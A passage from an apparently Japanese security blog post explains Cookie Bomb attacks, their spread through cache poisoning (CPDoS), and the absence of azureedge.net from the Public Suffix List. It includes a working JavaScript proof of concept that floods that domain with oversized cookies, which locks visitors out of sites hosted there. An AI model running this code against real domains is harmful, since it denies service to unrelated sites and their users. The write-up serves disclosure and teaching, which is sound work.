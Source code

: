 2番目のポイントは、キャッシュポイズニングと呼ばれる脆弱性を介して達成できます。

名前が示すように、この脆弱性はキャッシュ内のコンテンツを汚染することを含みます。例えば、多くのウェブサイトにはキャッシュがあり、異なるユーザーが同じキャッシュにアクセスする可能性があります。この場合、キャッシュサーバーに破損したレスポンスを保存させる方法を見つけることができます。こうすることで、他のすべてのユーザーも破損したファイルを受信し、同じエラーメッセージが表示されます。

このようにして、ターゲットはリンクをクリックしなくても侵害される可能性があり、攻撃は1人から全員に拡大されます。

これには[CPDoS（Cache Poisoned Denial of Service）](https://cpdos.org/)という特定の用語があります。キャッシュを利用するため、もはやCookie Bombとは関係ありません。Cookieを使用せずに自分のコンピュータから直接攻撃を開始することもできます。

次に、最初の点を見てみましょう。「この場所を簡単に見つけることは可能か？」。

## Cookieを簡単に設定できる場所を見つける

Cookie Bombを実行するためにCookieを簡単に設定できる場所はありますか？はい、それは前述の共有サブドメイン、例えば`*.github.io`のようなものです。

しかし、これらのドメインは既にパブリックサフィックスリストに含まれていませんか？Cookieを設定できません。

リストにないものを見つければいいだけです！

しかし、これは簡単なことではありません。なぜなら、知っているサービスのほとんどは既に登録されていることがわかるからです。例えば、GitHub、AmazonS3、Heroku、Netlifyなどは既にリストに載っています。

しかし、リストに載っていないものを見つけました。それはMicrosoftが提供するAzure CDN：azureedge.netです。

理由はわかりませんが、このドメインはパブリックサフィックスに属していないため、独自のCDNを作成すれば、Cookie Bombを実行できます。

## PoCの作成

デモに使用したコードは次のとおりです。[こちら](https://github.com/wrr/cookie-bomb/blob/master/bomb.html)から参照および変更しました。

```js
const domain = 'azureedge.net'
const cookieCount = 40
const cookieLength = 3000
const expireAfterMinute = 5
setCookieBomb()

function setCookie(key, value) {
  const expires = new Date(+new Date() + expireAfterMinute * 60 * 1000);
  document.cookie = key + '=' + value + '; path=/; domain=' + domain + '; Secure; SameSite=None; expires=' + expires.toUTCString()
}

function setCookieBomb() {
  const value = 'Boring' + '_'.repeat(cookieLength)
  for (let i=0; i<cookieCount; i++) {
    setCookie('key' + i, value);
  }
}
```

次に、ファイルをAzureにアップロードし、CDNを設定します。

クリックすると、`azureedge.net`にたくさんのジャンクCookieが設定されます。
